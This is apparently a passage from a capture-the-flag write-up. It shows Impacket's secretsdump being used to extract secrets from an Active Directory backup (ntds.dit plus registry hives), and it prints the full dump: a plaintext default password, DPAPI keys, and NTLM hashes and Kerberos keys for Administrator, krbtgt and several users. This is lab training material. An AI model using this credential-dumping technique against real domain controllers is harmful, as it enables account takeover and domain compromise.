 > Attachment: AD_backup.zip

So we have a ZIP file with a `registry` folder and a `ntds.dit` file. Trying to solve this challenge in a Linux machine (since my Windows VM refused to boot), I found out that `Impacket` script collection has a `secretsdump.py` to dump sensitive info from registry file. 

``` bash
$ secretsdump.py -ntds ~/Projects/oposec-christmas-22/Active\ Directory/ntds.dit  -system ~/Projects/oposec-christmas-22/registry/SYSTEM -security ~/Projects/oposec-christmas-22/registry/SECURITY local
Impacket v0.10.1.dev1+20221214.172823.8799a1a2 - Copyright 2022 Fortra

[*] Target system bootKey: 0x5fb07a625512cd828efd1eb75ab24c1c
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:4f790a53e86a5b4498a70b18eb3fec2c27cd40ad444a88808ea02fc2bdc88a507c1dd9fa04d86ae44be8641adb0cc46ad6fcadd1dedf04903b3be9c792b0d368a59e57a1616c2548fdabe842665c6c0b8d31dbf0a24cd3d4887e334e95ea051481c41a15ed7abf849cf9ae7361f30913cbf92e0e31d205bf1943b09181d4c8373884c3ce1cd311b5bcc35dbb3d810689170abdc0386ffd62ef663b2b7dd9b97c417753bddef4e11142a49049b75939d0db71b7f0e0c17ec5305a680fd6de4d769d060679668859e3ec3d5139a980371d5d4e0fca5ae7a2a28f185c76cd42e12ab994b4aa0547f547d71394577d382457
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:870dc1dcd1b50a8f04472485c3e445c1
[*] DefaultPassword 
(Unknown User):ROOT#123
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x63d8fb27d7efe53e156719dc2e8dce0aad846543
dpapi_userkey:0x48a4390382dc50a00c7244cf23a3567a002b4e2d
[*] NL$KM 
 0000   1D 05 A6 71 87 FE 0C 45  DC 84 3F DD BB 18 ED C9   ...q...E..?.....
 0010   3E 83 1E E4 01 CB 1F 55  8A C1 C9 AA D0 57 0E D9   >......U.....W..
 0020   1B EB A1 25 99 6F D0 D0  D8 DF 5B 6D 56 23 F9 8E   ...%.o....[mV#..
 0030   F5 40 C5 06 F0 E6 46 B1  2C 93 76 DE 0F 58 00 B8   .@....F.,.v..X..
NL$KM:1d05a67187fe0c45dc843fddbb18edc93e831ee401cb1f558ac1c9aad0570ed91beba125996fd0d0d8df5b6d5623f98ef540c506f0e646b12c9376de0f5800b8
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: db591b9546c39acc89bc2eb9d943a927
[*] Reading and decrypting hashes from /home/jpdias/Projects/oposec-christmas-22/Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-AG9BSPKRNKB$:1001:aad3b435b51404eeaad3b435b51404ee:870dc1dcd1b50a8f04472485c3e445c1:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4dbcaca1dfa95d13b246c66a6fee6c7f:::
user10:1104:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
maria:1105:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
john:1106:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
thomas:1107:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
sneakyuser:1108:aad3b435b51404eeaad3b435b51404ee:ac1dbef8523bafece1428e067c1b114f:::
[*] Kerberos keys from /home/jpdias/Projects/oposec-christmas-22/Active Directory/ntds.dit 
WIN-AG9BSPKRNKB$:aes256-cts-hmac-sha1-96:105437447f915bb677f66b5ec17dab9ae9700dfb5b068d8d52e959c1dd378ac2
WIN-AG9BSPKRNKB$:aes128-cts-hmac-sha1-96:6d800550e0fbfdeb42cd1fb013b71222
WIN-AG9BSPKRNKB$:des-cbc-md5:b04561fe194cb534
krbtgt:aes256-cts-hmac-sha1-96:7cbaa71e3119169ec41d642bc9ce7fd3a0e408ee4e1d7865c62edf311b018218
krbtgt:aes128-cts-hmac-sha1-96:897496dd3737a6523b63e04b2d275b8a
krbtgt:des-cbc-md5:6b7a91d940a77a2f
user10:aes256-cts-hmac-sha1-96:38b0bd0f4366e1ec84c22da5a44f3222ceabfe3a4bb0556ef1ca036b9207779f
user10:aes128-cts-hmac-sha1-96:1098796a633a40dfb761ffe4ba4e8ab4
user10:des-cbc-md5:6bc8d97c92e31c13
maria:aes256-cts-hmac-sha1-96:28652e7eb642c5fb72dc6319c8277c548d4e047edde7d47cb7146a807c76110e
maria:aes128-cts-hmac-sha1-96:e1a1949b1e209c833b49aa8e974da8ee
maria:des-cbc-md5:758cd9dab07a5151
john:aes256-cts-hmac-sha1-96:252973000b5100f74fa1e86416fa70ff4114b0310ef774e126a9659d4780d7d3
john:aes128-cts-hmac-sha1-96:2beef7900a25e473a9448a0cfedcfbe3
```

[^1]: [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)
[^2]: [Colabcat: Run Hashcat on Google Colab with session restore capabilities with Google Drive](https://github.com/someshkar/colabcat)
[^3]: [How to decrypt wifi traffic wireshark](https://kalitut.com/decrypt-wi-fi-traffic-wireshark/)